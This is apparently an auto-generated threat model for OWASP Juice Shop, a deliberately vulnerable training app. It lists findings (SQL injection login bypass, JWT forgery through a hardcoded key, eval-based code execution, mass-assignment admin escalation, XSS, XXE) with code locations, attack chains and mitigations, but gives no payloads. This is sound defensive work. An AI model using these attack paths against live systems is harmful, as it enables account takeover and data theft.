# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|-------------------|
| v1 | 2026-06-17 | full | thorough | opus-cheap | `455206c` (vs v0) | +1 / ~0 / -0 | - | 65 threats (stable) |


**Latest run (v1) - threat-level delta:**

- **Added (1):** 🟠 [F-050](#f-050) — Two-Factor Authentication Disable — `routes/2fa.ts:158`

- **New abuse cases (6):** [AC-T-001](#ac-t-001), [AC-T-002](#ac-t-002), [AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 OAuth Derived Password from Email Enables Credential](#31-oauth-derived-password-from-email-enables-credential)
   - [3.2 SQL Injection Authentication Bypass](#32-sql-injection-authentication-bypass)
   - [3.3 Hardcoded RSA Private Key Enables Universal JWT Forgery](#33-hardcoded-rsa-private-key-enables-universal-jwt-forgery)
   - [3.4 Insecure JWT Verification](#34-insecure-jwt-verification)
   - [3.5 Insecure Direct Object Reference](#35-insecure-direct-object-reference)
   - [3.6 UNION SQL Injection](#36-union-sql-injection)
   - [3.7 Mass Assignment: role Field Writable](#37-mass-assignment-role-field-writable)
   - [3.8 XXE](#38-xxe)
   - [3.9 JavaScript Sandbox Escape](#39-javascript-sandbox-escape)
   - [3.10 Server-Side Template Injection](#310-server-side-template-injection)
   - [3.11 Mass Assignment Admin Role](#311-mass-assignment-admin-role)
   - [3.12 Zip Slip Arbitrary File Write](#312-zip-slip-arbitrary-file-write)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (56)](#51-unauthenticated-entry-points-56)
   - [5.2 Authenticated Entry Points (53)](#52-authenticated-entry-points-53)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Not production-ready. Juice Shop lets anyone on the internet take over admin-level sessions, read all customer records, and execute code on the host server - through several independent paths, none requiring special tooling. Every authentication boundary can be bypassed: the session-signing key is published in the repository, the login query is injectable, and the JWT library accepts unsigned tokens. Fixing this means rebuilding the authentication, secrets, and data-access layers - not patching individual bugs.

**Risk distribution:** 🔴 Critical: 12 · 🟠 High: 41 · 🟡 Medium: 10 · 🟢 Low: 2 · **Total: 65**


<br/>

**Attack scenarios that drive this verdict - what an attacker can do today:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Admin takeover without credentials** — The cryptographic signing key used to validate every user session is committed to the public source repository. Any party who has read the source can mint a valid administrator session token with no account and no interaction with the login page. *(🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — lib/insecurity.ts:23, 🔴 [F-006](#f-006) — Insecure JWT Verification — lib/insecurity.ts:54)*
- **Authentication bypass via login injection** — The login endpoint builds its database query by concatenating user input directly into the query string, so submitting a one-line payload skips the password check entirely and authenticates the attacker as the first application user, which is the seeded admin account. *(🔴 [F-004](#f-004) — SQL Injection Authentication Bypass — routes/login.ts:34)*
- **Arbitrary code execution on the server** — Two separate routes evaluate untrusted user input as server-side JavaScript — one in the user profile handler and one in the B2B order endpoint — meaning an authenticated attacker can run arbitrary commands inside the server process and access every file the application touches. *(🔴 [F-012](#f-012) — Server-Side Template Injection — routes/userProfile.ts:62, 🔴 [F-011](#f-011) — JavaScript Sandbox Escape — routes/b2bOrder.ts:23)*
- **Any customer record readable by any logged-in user** — Order history, delivery addresses, and payment records are accessible by requesting them by numeric id, and the server does not verify that the requester owns those records — a logged-in attacker can enumerate all customer data by incrementing an id. *(🔴 [F-007](#f-007) — Insecure Direct Object Reference — routes/address.ts:11, 🔴 [F-008](#f-008) — UNION SQL Injection — routes/search.ts:23)*
- **Admin privilege via self-registration** — The user registration endpoint accepts a role field in the request body and writes it directly to the database without restriction, so any anonymous visitor can register as an administrator with a single crafted request. *(🔴 [F-009](#f-009) — Mass Assignment: role Field Writable — server.ts:483, 🔴 [F-013](#f-013) — Mass Assignment Admin Role — server.ts:499)*
- **Session theft via stored cross-site scripting** — Session tokens are held in browser-readable storage with no content security policy and multiple confirmed cross-site scripting sinks, so an attacker who plants a payload in any product description or review can steal every visitor's session token. *(🔴 [F-020](#f-020) — Stored XSS in Product Descriptions — search-result.component.ts:132, 🔴 [F-021](#f-021) — Reflected DOM XSS — search-result.component.ts:170, 🔴 [F-001](#f-001) — JWT Bearer Token Stored in localStorage — login.component.ts:101)*

</blockquote>

<br/>

The most important fixes - a runtime-injected signing key, parameterized SQL queries, no server-side eval, and server-side ownership checks - must land together; each one left open is an independent path to full compromise.

**Attack-chain analysis.** 4 findings anchor 4 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-001](#f-001) — JWT Bearer Token Stored in localStorage (`login.component.ts:101`), 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential (`oauth.component.ts:30`), 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery (`lib/insecurity.ts:23`), 🔴 [F-020](#f-020) — Stored XSS in Product Descriptions (`search-result.component.ts:132`). 2 of these are rated above their individual baseline as a direct result of the verified chain.

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols.


**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.



**Threat actors.** The actors below drive the numbered attack paths in the figures above. The **Shop User** is the *victim* of client-side attacks (XSS / CSRF), not an attacker - in Figure 2 the compromise surfaces as the resulting business-impact node rather than as a separate actor box.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ⑤ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ④ Remote Code Execution (unsafe eval).

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>User-supplied input flows into SQL and NoSQL query strings without parameterization, allowing unauthenticated attackers to bypass the login check, dump the entire user table, and overwrite arbitrary product reviews. | <span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - SQL Injection Authentication Bypass (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - UNION SQL Injection (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - XXE (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-025](#f-025)</span> - NoSQL Injection with `multi:true` Enables (`routes/updateProductReviews.ts:18`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-014](#m-014)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-018](#m-018)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>The RSA private key used to sign all session tokens is committed to the public repository, and the JWT library accepts unsigned tokens, so anyone who reads the source can mint a forged administrator token without touching the login endpoint. | <span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - OAuth Derived Password from Email Enables Credential (`oauth.component.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - Hardcoded RSA Private Key Enables Universal JWT Forgery (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - Insecure JWT Verification (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - `MD5` Password Hashing (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (`routes/checkKeys.ts:10`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-059](#f-059)</span> - Container images published without signing or provenance (`release.yml`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-015](#m-015)</span> — Move cryptographic keys to a managed secret store<br/><span style="white-space:nowrap">❶ [M-016](#m-016)</span> — Enforce JWT signature and algorithm verification |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>The registration and profile-update endpoints accept a role attribute in the request body and write it to the database without restricting which fields a caller may set, enabling any visitor to self-promote to administrator. | <span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - Insecure Direct Object Reference (`routes/address.ts:11`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Mass Assignment: role Field Writable (`server.ts:483`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Mass Assignment Admin Role (`server.ts:499`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-031](#f-031)</span> - GitHub Actions workflow missing top-level permissions block (`ci.yml`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-049](#f-049)</span> - JWT Role Claims Not Validated Against Database at (`lib/insecurity.ts:156`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-051](#f-051)</span> - Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-052](#f-052)</span> - Unauthenticated Admin Endpoints (`server.ts:604`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-017](#m-017)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❶ [M-019](#m-019)</span> — Add 'role' to excludeAttributes in the finale User resource, and force server-side default |
| <a id="path-remote-code-execution"></a>④ | **Remote Code Execution (unsafe eval)** _(E)_<br/>Two server-side routes evaluate attacker-controlled input as JavaScript - the user-profile handler via `eval()` and the B2B order endpoint via a sandbox that is escapable through prototype pollution - giving an authenticated attacker arbitrary code execution inside the container. | <span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Server-Side Template Injection (`routes/userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Server Compromise · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-021](#m-021)</span> — Remove server-side evaluation of untrusted input<br/><span style="white-space:nowrap">❶ [M-022](#m-022)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-sensitive-data-exposure"></a>⑤ | **Sensitive File & Secret Exposure** _(I)_<br/>Encryption keys, FTP directory contents, access logs, and stack traces are served without authentication on predictable URL paths, and a server-side request forgery sink lets an attacker redirect the server to fetch internal resources. | <span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - Zip Slip Arbitrary File Write (`routes/fileUpload.ts:45`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-018](#f-018)</span> - Missing Authentication on `/file-upload` Multipart Upload Endpoint (`server.ts:309`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-08](#c-08)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - Hardcoded Deployment Email in Public Workflow (`ci.yml:342`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-035](#f-035)</span> - Unauthenticated Public Exposure of Encryption Key Directory (`server.ts:277`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - Verbose Error Handler Exposing Stack Traces (`server.ts:676`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Unauthenticated FTP and Encryption Key Directory Listing (`server.ts:269`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-039](#f-039)</span> - Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-040](#f-040)</span> - Unauthenticated Exposure of Encryption Keys and JWT Material (`server.ts:278`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-041](#f-041)</span> - Unauthenticated Log File Disclosure (`routes/logfileServer.ts:14`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-058](#f-058)</span> - Sandbox Error Details Leaked to B2B API Callers (`routes/b2bOrder.ts:32`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-065](#f-065)</span> - Data disclosure (`challenges.yml:1381`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-024](#m-024)</span> — Constrain file paths to a safe base directory<br/><span style="white-space:nowrap">❷ [M-028](#m-028)</span> — Enforce JWT authentication middleware on POST `/file-upload` before all upload handlers |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>Product descriptions and search results render attacker-supplied HTML without encoding, and session tokens are held in JavaScript-readable browser storage with no content security policy, so any XSS payload immediately yields the victim's session token. | <span style="white-space:nowrap">🟠&nbsp;[F-001](#f-001)</span> - JWT Bearer Token Stored in localStorage (`login.component.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-002](#f-002)</span> - JWT Stored in localStorage (`request.interceptor.ts:13`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - Stored XSS in Product Descriptions (`search-result.component.ts:132`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-021](#f-021)</span> - Reflected DOM XSS (`search-result.component.ts:170`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-053](#f-053)</span> - DOM XSS (`last-login-ip.component.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🟠 **High**<br/>Customer Session Hijack | <span style="white-space:nowrap">❷ [M-030](#m-030)</span> — Encode output instead of bypassing the framework sanitizer<br/><span style="white-space:nowrap">❷ [M-031](#m-031)</span> — Encode output instead of bypassing the framework sanitizer |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 4 fully viable ([AC-T-001](#ac-t-001), [AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005)); 1 partially blocked ([AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 12 of 51 qualifying (65 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 12 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-02](#c-02) — Express\.js REST API Backend | ❶ [M-018](#m-018) — Use parameterized database queries | 🔴 [F-008](#f-008) — UNION SQL Injection (`routes/search.ts`) | Low |
| **2** | [C-02](#c-02) — Express\.js REST API Backend | ❶ [M-019](#m-019) — Add 'role' to excludeAttributes in the finale User resource, and force server-side default | 🔴 [F-009](#f-009) — Mass Assignment: role Field Writable (`server.ts`) | Low |
| **3** | [C-02](#c-02) — Express\.js REST API Backend | ❶ [M-022](#m-022) — Remove server-side evaluation of untrusted input | 🔴 [F-012](#f-012) — Server-Side Template Injection (`routes/userProfile.ts`) | Low |
| **4** | [C-02](#c-02) — Express\.js REST API Backend | ❶ [M-023](#m-023) — Restrict writable attributes on POST `/api/Users` to exclude the role field | 🔴 [F-013](#f-013) — Mass Assignment Admin Role (`server.ts`) | Low |
| **5** | [C-02](#c-02) — Express\.js REST API Backend | ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization | 🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts`) | Medium |
| **6** | [C-03](#c-03) — File Upload & Processing Service | ❶ [M-020](#m-020) — Disable XML external entity (XXE) resolution | 🔴 [F-010](#f-010) — XXE (`routes/fileUpload.ts`) | Low |
| **7** | [C-03](#c-03) — File Upload & Processing Service | ❶ [M-024](#m-024) — Constrain file paths to a safe base directory | 🔴 [F-014](#f-014) — Zip Slip Arbitrary File Write (`routes/fileUpload.ts`) | Low |
| **8** | [C-04](#c-04) — B2B Order Processing API | ❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input | 🔴 [F-011](#f-011) — JavaScript Sandbox Escape (`routes/b2bOrder.ts`) | Medium |
| **9** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-014](#m-014) — Use parameterized database queries | 🔴 [F-004](#f-004) — SQL Injection Authentication Bypass (`routes/login.ts`) | Low |
| **10** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-015](#m-015) — Move cryptographic keys to a managed secret store | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery (`lib/insecurity.ts`) | Medium |
| **11** | [C-06](#c-06) — Authentication & Session Surface | ❶ [M-016](#m-016) — Enforce JWT signature and algorithm verification | 🔴 [F-006](#f-006) — Insecure JWT Verification (`lib/insecurity.ts`) | Medium |
| **12** | [C-01](#c-01) — Angular SPA Frontend | ❷ [M-013](#m-013) — Move secrets to a managed secret store | 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential (`oauth.component.ts`) | High |

*39 additional P1/P2 mitigations capped from the leader-board · 14 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="18%" style="width:18%"><col width="28%" style="width:28%"><col width="13%" style="width:13%"><col width="30%" style="width:30%"><col width="11%" style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Automated SCA scanning<br/>Container Security</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Observability &amp; Audit</strong></td><td style="overflow-wrap:anywhere"><em>Runtime visibility - access logging, audit trails, and operational telemetry for post-incident review.</em><br/>Audit Logging</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Coverage incomplete - see <a href="#7-security-architecture">§7</a> control assessment.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23` Hardcoded RSA private key · 🔴 [F-006](#f-006) — Insecure JWT Verification — `lib/insecurity.ts:54` Insecure JWT verification · 🔴 [F-004](#f-004) — SQL Injection Authentication Bypass — `routes/login.ts:34` SQL injection auth bypass · 🔴 [F-009](#f-009) — Mass Assignment: role Field Writable — `server.ts:483` Mass assignment role field writable · 🔴 [F-013](#f-013) — Mass Assignment Admin Role — `server.ts:499` Mass assignment admin role on registration · 🔴 [F-012](#f-012) — Server-Side Template Injection — `routes/userProfile.ts:62` Server-side template injection via eval · 🔴 [F-011](#f-011) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23` JavaScript sandbox escape in B2B API · 🔴 [F-010](#f-010) — XXE — `routes/fileUpload.ts:83` XXE arbitrary file read

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

This threat model covers 8 components of juice-shop: **Angular SPA Frontend**, **Express\.js REST API Backend**, **File Upload & Processing Service**, **B2B Order Processing API**, **Data Layer (SQLite + MarsDB)**, **Authentication & Session Surface**, **CI/CD Pipeline**, **Real-time WebSocket Channel**.

All 8 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).

